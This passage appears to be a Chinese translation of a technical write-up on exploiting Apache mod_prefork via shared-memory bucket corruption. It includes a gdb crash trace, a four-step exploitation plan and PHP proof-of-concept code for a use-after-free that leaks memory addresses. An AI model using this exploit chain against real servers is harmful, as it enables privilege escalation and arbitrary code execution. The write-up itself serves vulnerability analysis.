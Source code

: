     Program received signal SIGSEGV, Segmentation fault.
    0x000000000046c16b in child_main (child_num_arg=child_num_arg@entry=0, 
        child_bucket=child_bucket@entry=80808080) at prefork.c:432
    432        status = SAFE_ACCEPT(apr_proc_mutex_child_init(&my_bucket->mutex,

#### 利用

利用分4个步骤

-   获得工作进程的R/W访问权限

-   在共享内存中写一个假的prefork\_child\_bucket结构

-   使all\_buckets \[bucket\]指向该结构

-   等待早上6:25获得任意函数调用

问题：PHP不允许读写/proc/self/mem， 这会阻止我们利用简单方法编辑共享内存

#### 获取工作进程内存的R/W访问权限

##### PHP UAF 0-day

由于mod\_prefork经常与mod\_php结合使用，因此通过PHP利用漏洞似乎很自然。我们使用PHP
7.x中的0day
UAF（这似乎也适用于PHP5.x）来完成利用(也可以利用CVE-2019-6977)

    <?php

    class X extends DateInterval implements JsonSerializable
    {
      public function jsonSerialize()
      {
        global $y, $p;
        unset($y[0]);
        $p = $this->y;
        return $this;
      }
    }

    function get_aslr()
    {
      global $p, $y;
      $p = 0;

      $y = [new X('PT1S')];
      json_encode([1234 => &$y]);
      print("ADDRESS: 0x" . dechex($p) . "\n");

      return $p;
    }

    get_aslr();

这是PHP对象上的UAF： 我们unset
\$y\[0\]（X的一个实例），但它仍然可以通过\$this使用。

##### UAF导致读/写
